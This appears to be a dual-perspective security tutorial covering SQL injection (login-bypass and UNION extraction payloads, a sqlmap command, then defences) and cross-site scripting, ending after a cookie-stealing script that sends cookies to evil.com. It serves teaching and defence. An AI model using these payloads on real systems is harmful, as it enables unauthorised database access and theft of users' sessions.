 
# Top 25 Cyber Attacks: Offensive and Defensive Perspectives

This guide provides an in-depth explanation of 25 common cyberattacks from both the **offensive** (how attackers perform the attack) and **defensive** (how to defend against it) perspectives. Each attack includes practical steps and the corresponding defensive strategies to protect against these threats.

---

## **1. SQL Injection (SQLi)**

### Offensive Side (How to Hack):
- **Objective**: Exploit poorly written SQL queries by injecting malicious SQL code into input fields.
- **Steps**:
  1. Identify a vulnerable website by entering `'` in input fields to cause errors.
  2. Inject SQL payload to bypass login forms:
     ```sql
     ' OR 1=1 --
     ```
  3. Extract data:
     ```sql
     ' UNION SELECT username, password FROM users --
     ```
  4. Use tools like **sqlmap** to automate SQL injection:
     ```bash
     sqlmap -u "http://example.com/login.php?id=1" --dbs
     ```

### Defensive Side (How to Defend):
- **Input Validation**: Sanitize inputs to block special characters like `'` or `--`.
- **Parameterized Queries**: Use prepared statements with parameterized queries to avoid direct SQL execution.
- **WAF**: Web Application Firewalls such as **ModSecurity** can help block SQLi attempts.

---

## **2. Cross-Site Scripting (XSS)**

### Offensive Side (How to Hack):
- **Objective**: Inject malicious JavaScript into web applications to steal cookies, deface websites, or redirect users.
- **Steps**:
  1. Identify an input field (search bar, comment box) that reflects user input.
  2. Inject malicious script:
     ```html
     <script>alert('XSS Attack!');</script>
     ```
  3. Exploit XSS with more complex payloads for cookie theft:
     ```html
     <script>document.write('<img src="http://evil.com/steal.php?cookie='+document.cookie+'" />');</script>
     ```
